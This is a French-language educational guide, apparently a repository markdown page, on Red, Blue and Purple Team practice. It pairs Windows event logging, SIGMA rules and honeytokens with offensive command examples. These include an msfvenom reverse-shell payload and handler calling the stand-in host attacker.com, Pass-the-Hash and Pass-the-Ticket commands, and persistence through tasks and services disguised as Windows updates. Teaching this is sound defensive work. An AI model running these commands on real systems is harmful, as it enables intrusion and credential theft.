


# Red Team et Blue Team

Le Red Team simule des attaquants réels pour tester les défenses d'une organisation. Le Blue Team défend, détecte et répond. La Purple Team fait le lien entre les deux pour maximiser l'apprentissage.

## Différences Red Team vs Pentest

| Critère | Pentest | Red Team |
|---|---|---|
| Objectif | Trouver le maximum de vulnérabilités | Atteindre un objectif précis (ex: accès aux données clients) |
| Durée | 1-4 semaines | 1-3 mois |
| Scope | Défini précisément | Large, intentionnellement flou |
| Connaissance | White/Grey/Black box | Généralement black box |
| Discrétion | Peu importante | Primordiale (test des capacités de détection) |
| Équipes alertées | Souvent oui | Non (test réaliste) |
| Livrables | Rapport de vulnérabilités | Rapport d'objectifs atteints + lacunes défensives |

## Méthodologie Red Team



### Règles d'engagement (Rules of Engagement)

Document légal signé avant toute opération Red Team :

```
Éléments obligatoires :
- Périmètre autorisé (IPs, domaines, bâtiments physiques)
- Périmètre exclu (systèmes critiques, période de gel)
- Objectifs précis (ex: "accéder au serveur SQL de paie")
- Fenêtres temporelles autorisées
- Contacts d'urgence (si incident réel pendant l'opération)
- Clauses de retrait (get-out-of-jail card : document à présenter si interpellé)
- Gestion des données sensibles découvertes
- Conditions de divulgation responsable si systèmes tiers compromis
```

### Phase 1 — Reconnaissance

```bash
# OSINT passif — sans contacter la cible
# Infrastructure externe
amass enum -passive -d cible.com
subfinder -d cible.com -o subdomains.txt
shodan search org:"Cible SA" --fields ip_str,port,hostnames

# Employés et emails
linkedin2username -c cible -d cible.com
theHarvester -d cible.com -b google,linkedin,shodan

# Technologies utilisées
whatweb https://www.cible.com
wappalyzer (extension navigateur)
builtwith.com

# Fichiers exposés / métadonnées
metagoofil -d cible.com -t pdf,docx -o metadonnees/
# Extraire les usernames des métadonnées : créateurs de docs Word

# Certificats SSL / sous-domaines
curl -s "https://crt.sh/?q=%.cible.com&output=json" | jq '.[].name_value' | sort -u
```

### Phase 2 — Compromission initiale

**Phishing ciblé (spear phishing)**
```bash
# GoPhish — plateforme de phishing pour Red Teams
# Créer une campagne avec landing page cloné, tracking des clics/creds

# Génération de payload (exemple éducatif)
msfvenom -p windows/x64/meterpreter/reverse_https \
  LHOST=attacker.com LPORT=443 -f exe -o document.exe

# Macros Office (technique courante)
# VBA macro dans .docm → télécharge et exécute payload
```

**Exploitation d'applications exposées**
```bash
# Fuzzing web pour découvrir les endpoints vulnérables
ffuf -u https://app.cible.com/FUZZ -w wordlist.txt

# Exploitation avec Metasploit
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST attacker.com
set LPORT 443
run

# SQLi → RCE (via INTO OUTFILE ou xp_cmdshell)
# LFI → RCE (via PHP wrappers)
```

### Phase 3 — Persistance

```powershell
# Tâche planifiée
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\beacon.exe" /sc onlogon /ru SYSTEM

# Service Windows
sc create "WinDefUpdate" binPath= "C:\Windows\Temp\beacon.exe" start= auto
sc start WinDefUpdate

# Registre (Run keys)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WinUpdate" /t REG_SZ /d "C:\Temp\beacon.exe"

# WMI Event Subscription (plus discret)
$filter = Set-WMIInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    Name = "WindowsFilter"
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 3"
}
```

### Phase 4 — Mouvement latéral

```bash
# Pass-the-Hash
impacket-psexec -hashes :ntlmhash domain/admin@target_ip

# Pass-the-Ticket (Kerberos)
impacket-getTGT domain/user -hashes :ntlmhash
export KRB5CCNAME=user.ccache
impacket-psexec -k -no-pass domain/user@target

# BloodHound — cartographie des chemins d'attaque AD
bloodhound-python -u user -p pass -d domain.local -dc dc.domain.local -c all
# Charger dans BloodHound, chercher : "Shortest path to Domain Admins"

# WMI (discret, pas de service distant)
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "beacon.exe" -ComputerName TARGET

# SMB + PsExec
impacket-psexec domain/admin:password@192.168.1.10
```

## Blue Team — Défense et Détection

### Visibilité : ce qu'il faut loguer

```
Sources essentielles :
Windows Event Logs :
  4624/4625 : Authentification (succès/échec)
  4648 : Logon avec credentials explicites
  4688 : Création de processus (avec commandline si activé)
  4698/4702 : Tâche planifiée créée/modifiée
  4720 : Compte créé
  7045 : Nouveau service installé

Sysmon (recommandé) :
  Event ID 1 : Process creation (avec hash et commandline)
  Event ID 3 : Network connection
  Event ID 11 : File creation
  Event ID 13 : Registry modification
  Event ID 22 : DNS query

Réseau :
  Logs DNS (requêtes sortantes inhabituelles)
  Logs proxy/firewall (connexions sortantes)
  NetFlow (volumes de données)
```

### Règles de détection SIGMA

```yaml
# Détection de Pass-the-Hash
title: Pass The Hash Attack
status: stable
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: 3
        LogonProcessName: NtLmSsp
        WorkstationName|contains: '-'  # Source inhabituelle
    filter:
        SubjectUserName: 'ANONYMOUS LOGON'
    condition: selection and not filter
falsepositives:
    - Legitimate NTLMv2 authentications
level: high
```

### Détection du mouvement latéral

```
Indicateurs de mouvement latéral :
- Login depuis un poste vers d'autres postes (pas depuis DC)
- Utilisation d'impacket (User-Agent, signatures réseau)
- SMB depuis des machines non-admin
- WMI vers plusieurs machines en peu de temps
- PsExec : création du service PSEXESVC

Règle : "Si une machine non-administrateur fait du SMB vers 5+ machines en 1 heure → alerte"
```

## Purple Team — Collaboration offensive/défensive

Le Purple Team fait travailler Red et Blue ensemble pour améliorer les capacités de détection.



**Atomic Red Team** : bibliothèque de tests atomiques mappés sur MITRE ATT&CK.

```bash
# Atomic Red Team — tester une technique spécifique
# T1059.001 : PowerShell
Invoke-AtomicTest T1059.001 -TestNumbers 1

# T1053.005 : Scheduled Task
Invoke-AtomicTest T1053.005

# T1003.001 : LSASS Memory Dump (credential access)
Invoke-AtomicTest T1003.001 -TestNumbers 1
```

## MITRE ATT&CK — Framework de référence

```
Tactiques (colonnes) → Techniques (lignes)

TA0001 Initial Access    : Phishing, Valid Accounts, Supply Chain
TA0002 Execution         : PowerShell, WMI, Scheduled Tasks
TA0003 Persistence       : Registry Run Keys, Services, Cron
TA0004 Privilege Escalation : Token Impersonation, Sudo, SUID
TA0005 Defense Evasion   : Obfuscation, Timestomping, Rootkit
TA0006 Credential Access : LSASS Dump, Kerberoasting, Keylogging
TA0007 Discovery         : Network Scanning, Account Discovery
TA0008 Lateral Movement  : PtH, PtT, Remote Services
TA0009 Collection        : Screen Capture, Keylogging, Archive
TA0010 Exfiltration      : DNS, HTTPS, Cloud Storage
TA0011 C2               : HTTPS, DNS Tunneling, Covert Channels
```

## Déception — Honeypots et Honeytokens

Placer des leurres pour détecter les attaquants qui ont contourné les défenses périmétriques.

```python
# Honeytoken — API key fake dans un fichier qui devrait être inaccessible
# Canarytokens.org

# Honeytoken AWS — déclenche une alerte si utilisé
aws iam create-user --user-name honeybot
aws iam create-access-key --user-name honeybot
# → Si ces credentials apparaissent dans CloudTrail → compromission confirmée

# Honeypot réseau — Cowrie (SSH/Telnet)
docker run -p 2222:2222 cowrie/cowrie
# Tout login SSH sur le port 2222 → alerte immédiate (personne ne devrait s'y connecter)

# Honeyfile — fichier nommé "passwords.txt" ou "vpn-credentials.docx"
# avec un canarytoken embarqué → ping si ouvert
```
